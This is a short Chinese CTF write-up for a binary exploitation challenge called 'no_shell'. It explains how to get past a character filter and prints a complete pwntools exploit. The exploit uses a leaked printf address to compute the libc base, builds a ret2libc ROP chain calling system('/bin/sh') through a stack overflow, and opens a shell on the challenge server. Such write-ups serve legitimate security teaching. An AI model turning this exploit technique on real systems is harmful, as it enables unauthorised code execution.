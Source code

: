 ```cpp
    if ( info[i] == 'b' || info[i] == 's' || info[i] == '/' || info[i] == 'i' || info[i] == 'n' || info[i] == '$' )
    {
      puts("almost there, but not yet");
      exit(0);
    }
  }
  puts("bye~");
  return close(1);
}
```

有个检查,不过没多大用,还是retlibc的思路,他那个检查,检查的是info里是否有/bin/sh或者cat字符串.可以不用那个地址,找libc里的字符串

libc文件有,printf的函数地址刚开始就泄露出来,可以计算libc基值,poprdi虽然没有找到,但是也可以通过libc基值计算出来

exp如下:

```python
from Pwnmodules import *  # pwnttols封装
context(log_level='debug', arch='amd64', os='linux')  # 设置pwntools的上下文环境  
  
target = Target("27.25.151.80", 34094)  # 设置远程目标  
  
elf = ELF("/root/Pwn/no_shell/./no_shell")  # 加载本地易受攻击的二进制文件  
libc = ELF("/root/Pwn/no_shell/libc.so.6")  # 加载本地libc库文件  
  
target.ru("this is gift:")  # 发送数据到远程服务并等待特定响应  
printf_addr = int(target.rl()[:-1], 16)  # 从远程服务的响应中读取printf函数的地址  
  
print(hex(printf_addr))  # 打印读取到的printf函数地址  
  
libc_base = printf_addr - libc.sym['printf']  # 计算libc库的基地址  
system_addr = libc_base + libc.sym["system"]  # 计算system函数的地址  
pop_rdi = 0x000000000002a3e5 + libc_base  # 计算pop rdi; ret gadget的地址  
str_bin_sh_addr = libc_base + next(libc.search("/bin/sh\x00"))  # 计算"/bin/sh"字符串的地址  
  
# 下面的execve_addr和gadget变量被注释掉了，因为它们可能不是必需的，或者需要针对特定的libc版本进行调整  
# execve_addr = [0xebc81, 0xebc85, 0xebc88, 0xebce2, 0xebd38, 0xebd3f, 0xebd43]  
# gadget = execve_addr[0] + libc_base  
  
# 发送一些无关紧要的数据，可能是为了触发漏洞或保持连接  
target.sl(b'eeeee')  
  
# 构造并发送攻击载荷  
# 注意：这里的0x40101a可能是一个栈上的返回地址，但它需要根据实际的二进制文件进行分析来确定  
# 如果这个地址不正确，攻击可能会失败  
payload = b'e' * 0x88 + p64(0x40101a) + p64(pop_rdi) + p64(str_bin_sh_addr) + p64(system_addr)  
target.sl(payload)  
  
# 尝试获取交互式shell  
target.inter()
```
